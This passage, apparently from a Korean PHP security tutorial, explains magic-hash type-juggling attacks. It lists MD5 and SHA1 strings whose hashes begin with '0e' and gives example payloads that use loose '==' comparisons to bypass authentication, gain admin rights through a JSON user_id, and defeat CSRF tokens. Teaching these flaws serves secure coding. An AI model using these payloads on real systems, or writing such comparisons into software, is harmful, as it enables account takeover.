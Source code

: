 **공격 벡터**:
```php
// 다음 문자열들의 MD5 해시는 모두 0e로 시작함
$magic_strings = [
    '240610708',     // MD5: 0e462097431906509019562988736854
    'QNKCDZO',       // MD5: 0e830400451993494058024219903391
    'aabg7XSs',      // MD5: 0e087386482136013740957780965295
    '0e1137126905'   // 직접적인 0e 문자열
];

foreach ($magic_strings as $string) {
    if ($string == $stored_hash) {
        echo "Hash collision: $string bypasses authentication!";
    }
}
```

### 2. SHA1 해시 우회 공격

```php
// SHA1 해시도 동일한 문제 발생
$vulnerable_hashes = [
    'aaroZmOk' => '0e66507019969427134894567494305185566735',  // SHA1
    'aaK1STfY' => '0e76658526655756207688271159624026011393',  // SHA1
    'aaO8zKZF' => '0e89257456677279068558073954252716165668'   // SHA1
];
```

### 3. JSON 데이터 우회

```php
// API에서 JSON 데이터 처리 시
$json_data = json_decode($_POST['data'], true);

if ($json_data['user_id'] == 0) {
    // 관리자 계정 처리
    $is_admin = true;
}

// 공격 페이로드: {"user_id": "0e123456"}
// 결과: 일반 사용자가 관리자 권한 획득
```

### 4. 토큰 검증 우회

```php
$expected_token = "0e123456789012345678901234567890";
$user_token = $_POST['token'];

if ($user_token == $expected_token) {
    // CSRF 토큰 검증 통과
    performSensitiveAction();
}

// 공격: token=0e999999999999999999999999999999
// 결과: CSRF 보호 우회
```
